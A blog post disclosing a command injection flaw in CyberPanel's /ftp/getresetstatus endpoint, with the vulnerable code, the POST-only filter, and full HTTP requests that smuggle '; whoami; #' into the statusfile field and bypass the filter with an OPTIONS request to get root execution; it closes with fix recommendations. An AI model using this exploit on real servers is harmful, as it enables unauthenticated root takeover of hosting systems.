 ```yaml
---
title: Uncovering a Command Injection Vulnerability in CyberPanel: A Fun Journey into Security Testing
published: 2024-10-23
description: A short story about how I found 0day.
tags: [web security, 0day]
category: Examples
draft: false
---
```


# Uncovering a Command Injection Vulnerability in CyberPanel: A Fun Journey into Security Testing

In the ever-evolving landscape of web applications, security remains a top concern. As an avid user and supporter of open-source projects, I was drawn to CyberPanel, a widely-used control panel for managing web hosting and server environments. Little did I know that my exploration would lead me down a rabbit hole, revealing a critical command injection vulnerability!

## Setting the Scene: What is CyberPanel?

CyberPanel is an open-source web hosting control panel that aims to simplify the management of servers. It's packed with features, offering everything from file management to SSL management, making it a go-to choice for many developers and system administrators. However, like any powerful tool, it requires vigilance to ensure security measures are robust.

## The Discovery: Unearthing the Vulnerability

While diving into the functionality of CyberPanel, I stumbled upon the `/ftp/getresetstatus` endpoint. At first glance, it appeared innocuous enough, handling user requests with ease. However, a closer inspection revealed a critical flaw: this endpoint processes user input from the `statusfile` parameter without proper validation or sanitization, creating a tempting opportunity for remote command injection.

## The Vulnerable Code

The vulnerability exists in the `/ftp/getresetstatus` endpoint, which processes user input from the `statusfile` parameter. The code directly incorporates this input into a shell command without proper validation or access control. Here’s a simplified version of the vulnerable code:

```python
def getresetstatus(request):
    data = json.loads(request.body)
    statusfile = data['statusfile']
    installStatus = ProcessUtilities.outputExecutioner("sudo cat " + statusfile)
    ...
```

As illustrated, the `statusfile` parameter is directly used in a shell command, creating a significant opportunity for remote command injection. Moreover, this endpoint lacks proper **Access Control Lists (ACLs)**, leaving it vulnerable to unauthorized access.

### Step 1: Initial Testing

My journey began by testing the `/ftp/getresetstatus` endpoint using a POST request. I crafted a request designed to execute the `whoami` command, ensuring to include the necessary CSRF token for validation:

```http
POST /ftp/getresetstatus HTTP/1.1
Host: example.com
Content-Type: application/json
Cookie: django_language=en; csrftoken=3WludTzJtlXhmLiVBRZCzkBPgPUwmQMt
X-Csrftoken: 3WludTzJtlXhmLiVBRZCzkBPgPUwmQMt
Content-Length: 48

{
    "statusfile": "; whoami; #"
}
```

Upon sending the request, the security middleware sprang into action and blocked it, returning the following response:

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: DENY
Vary: Accept-Language, Cookie
Content-Language: en
X-Content-Type-Options: nosniff
Referrer-Policy: same-origin
Content-Length: 269
Date: Wed, 23 Oct 2024 10:52:35 GMT
Server: LiteSpeed
Connection: Keep-Alive

{"error_message": "Data supplied is not accepted, following characters are not allowed in the input ` $ & ( ) [ ] { } ; : \u2018 < >.", "errorMessage": "Data supplied is not accepted, following characters are not allowed in the input ` $ & ( ) [ ] { } ; : \u2018 < >."}
```

The middleware effectively checked for special characters in POST request bodies, but it did **not** apply the same scrutiny to other HTTP methods. This was the critical insight I needed.

### Step 2: Analyzing the Security Middleware

Curious about the middleware's behavior, I dug deeper into the source code. The relevant security middleware checks for specific characters in POST request bodies. Here’s a simplified version of the security middleware code:

```python
class secMiddleware:
    def __call__(self, request):
        if request.method == 'POST':
            try:
                data = json.loads(request.body)
                for key, value in data.items():
                    # Check for special characters
                    if any(char in value for char in [';', '&', '|', '`']):
                        # Log and block the request
                        return HttpResponse("Invalid input detected.")
            except Exception as msg:
                # Handle exceptions
                pass
        return self.get_response(request)
```

The middleware effectively checks for potentially harmful characters in POST requests, but it does **not** apply the same scrutiny to other HTTP methods. This was the critical insight I needed.

### Step 3: The Bypass Discovery

Realizing that the middleware was not enforcing the same checks for OPTIONS requests, I decided to exploit this oversight. I crafted an OPTIONS request with my malicious payload, ensuring to include all relevant headers just like the POST request:

```http
OPTIONS /ftp/getresetstatus HTTP/1.1
Host: example.com
Content-Type: application/json
Cookie: django_language=en; csrftoken=3WludTzJtlXhmLiVBRZCzkBPgPUwmQMt
X-Csrftoken: 3WludTzJtlXhmLiVBRZCzkBPgPUwmQMt
Content-Length: 48

{
    "statusfile": "; whoami; #"
}
```

### Step 4: Triggering the Vulnerability

To my surprise, the OPTIONS request successfully passed through the security middleware without any validation, executing the command on the server. This allowed me to retrieve sensitive information, and I received the following response confirming the successful exploitation:

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
X-XSS-Protection: 1; mode=block
X-Frame-Options: sameorigin
Content-Security-Policy: style-src 'self' 'unsafe-inline' https://fonts.googleapis.com https://www.jsdelivr.com https://cdnjs.cloudflare.com https://maxcdn.bootstrapcdn.com https://cdn.jsdelivr.net
X-Content-Type-Options: nosniff
Referrer-Policy: same-origin
Vary: Accept-Language, Cookie
Content-Language: en
Content-Length: 64
Date: Wed, 23 Oct 2024 10:57:29 GMT
Server: LiteSpeed
Connection: Keep-Alive

{"abort": 0, "error_message": "None", "requestStatus": "root\n"}
```

In this response, the `requestStatus` indicates that the command was executed with root privileges, highlighting the severity of the vulnerability.

## Recommendations for Fixing the Vulnerability

Having discovered this vulnerability, it’s crucial to act quickly to secure the application. Here are a few recommendations for CyberPanel developers:

1. **Implement Input Validation**: Ensure all user inputs are validated and sanitized before being used in any shell commands.

2. **Utilize Access Control Lists (ACLs)**: Add ACLs to the `/ftp/getresetstatus` endpoint to restrict access and limit exposure to potential exploits.

3. **Review Other Endpoints**: Conduct a thorough audit of other sensitive endpoints to identify any similar vulnerabilities or missing ACLs.

4. **Enhance Security Middleware**: Update the security middleware to inspect all HTTP methods, including OPTIONS, to ensure no bypassing of security checks is possible.

## Conclusion: The Fun in Finding Flaws

Finding this vulnerability in CyberPanel was both a challenge and a rewarding experience. It not only honed my skills in security testing but also reminded me of the importance of community in open-source projects. I encourage other developers and security researchers to dive into CyberPanel and similar applications—who knows what hidden gems (or vulnerabilities) you might find!

As I prepare to submit a CVE request for this vulnerability, I look forward to sharing more about this journey. Stay tuned for further updates as I report on this issue and how it can be addressed!

Happy testing!
